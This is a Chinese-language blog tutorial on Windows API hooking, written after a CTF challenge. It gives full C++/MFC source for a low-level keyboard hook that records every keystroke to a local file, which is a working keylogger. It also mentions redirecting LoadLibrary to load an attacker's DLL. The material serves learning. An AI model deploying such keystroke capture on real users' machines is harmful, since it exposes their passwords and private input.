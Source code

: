 ```yaml
---
layout:     post
title:      Hook学习
subtitle:   kxctf中碰到了这个，不会，wp都看不懂
date:       2018-12-28
author:     gxkyrftx
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - Hook
    - c++
---
```


# 0x01 hook是什么

Hook，是Windows消息处理机制的一个平台，应用程序可以在上面设置子程序以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。当消息到达后，在目标窗口处理函数之前处理它。钩子机制允许应用程序截获处理window消息或特定事件。

钩子实际上是一个处理消息的程序段，通过系统调用，把它挂入系统。每当特定的消息发出，在没有到达目的窗口前，钩子程序就先捕获该消息，亦即钩子函数先得到控制权。这时钩子函数即可以加工处理（改变）该消息，也可以不作处理而继续传递该消息，还可以强制结束消息的传递。

划重点：监视某程序，等一个事件发生，在正常的应该处理这个事件的动作之前，先进行捕获，hook函数先执行这个事件。

# 0x02 hook的原理

举个例子，弹窗是程序中很常见的一个api(Application Programming Interface，就是开发人员预置的程序接口，使用者可以调用），常见的就是MessageBox函数,那么hook就是，我们把这个API,变为我们的API去执行,执行完我们的代码之后再去执行它的的函数。

其实相当于就是我们在这个API之前,跳转到我们的函数执行了,然后跳转之后,我们执行完毕之后,可以选择是否在跳转回去,但是这里注意,跳转回去则跳转到msg的return处位置即可。eax可以给一个值,让它返回。

利用这个技术,我们可以监控API,比如应用程序会调用loadLibrary,那我们把它Hook了,把Dll路径改成我们的,那加载的就是我们的dll了,当然 Hook的API很多,因为只要是Windows的API都能HOOK

# 0x03 hook实例-获取键盘输入

说一千道一万，最重要的还是要落实到应用，来看看怎么实现

## 1.开发环境

    windows10,vs2010
    
## 2.前期准备

    文件——>新建——>项目——>MFC——>MFC应用程序——>应用程序类型选基于对话框——>完成
    
    然后画两个按钮，如图所示
    
## 3.程序实现
4.添加库与全局变量

~~~c++
#include <iostream> 

#include <string> 

#include <fstream>
 
using namespace std;
 
//全局变量
HHOOK glhHook = NULL;			//安装的鼠标勾子句柄 
BOOL g_bCapsLock = FALSE;		//大小写锁定键	
BOOL g_bShift = FALSE;			//shift键
ofstream SaveFile("key.txt");
~~~
	
2.双击hook按钮，对其编程
    
```c++
	void CKeyboardHookDlg::OnBnClickedButton1() {
	string str = "start:";
	SaveFile << str << endl;
	
	glhHook = SetWindowsHookExA(WH_KEYBOARD_LL, KeyboardProc, GetModuleHandle(NULL), NULL);
	//这里调用SetWindowsHookExA()函数，因为hook的实现不是在DLL中，而是直接在KeyboardHookDlg.cpp中实现，所有第3个参数使用	GetModuleHandle(NULL)
	
	if (glhHook != NULL) {
		//AfxMessageBox(L"StartHook成功！");//用于打桩测试
	} 
	else 
	{
		AfxMessageBox(L"StartHook失败！");
	}
	}
```

3.双击stophook，对其编程

```c++
	void CKeyboardHookDlg::OnBnClickedButton2() {
		UnhookWindowsHookEx(glhHook);
	}
```

4.在键盘输入了字符，处理这件事

~~~ c++
//键盘钩子回调函数
LRESULT  CALLBACK  KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	
	char c[2];
	c[1] = 0;
	if ((wParam == WM_KEYDOWN) && (HC_ACTION == nCode)) {		//有键按下
		
		KBDLLHOOKSTRUCT *  keyNum = (KBDLLHOOKSTRUCT *)lParam;
 
		//处理字母大小写
		if ((keyNum->vkCode == VK_CAPITAL) || (keyNum->vkCode == VK_LSHIFT) || (keyNum->vkCode == VK_RETURN) || (keyNum->vkCode >= 65 && keyNum->vkCode <= 90)) {
			
			if (!GetKeyState(VK_CAPITAL)) {	//如果大写锁定键未被按下
				g_bCapsLock = FALSE;
			} else {
				g_bCapsLock = TRUE;
			}
 
			if (GetAsyncKeyState(VK_LSHIFT) & 0x8000) { //如果shift键被按住
				g_bShift = TRUE;
			} else {
				g_bShift = FALSE;
			}
 
			if (keyNum->vkCode >= 65 && keyNum->vkCode <= 90) {
				BOOL flag = g_bCapsLock^g_bShift;//同假异真
				if (flag) {
					c[0] = keyNum->vkCode;
				} else {
					c[0] = keyNum->vkCode + 32;
				}
				SaveFile << (int)c[0] << " : " << c << endl;
			}
		}
		//处理数字小键盘
		else if (keyNum->vkCode == 144 || (keyNum->vkCode >= VK_NUMPAD0 && keyNum->vkCode <= VK_NUMPAD9)) { //144表示数字小键盘锁键
 
			if (GetKeyState(144)) {		//如果数字小键盘锁键被按下
				int mapKey = keyNum->vkCode - 48;
				SaveFile << keyNum->vkCode << " : " << char(mapKey) << endl;
			}
 
		} else {
			SaveFile << keyNum->vkCode << " : " << char(keyNum->vkCode) << endl;
		}
	}
	return CallNextHookEx(glhHook, nCode, wParam, lParam);
}

~~~
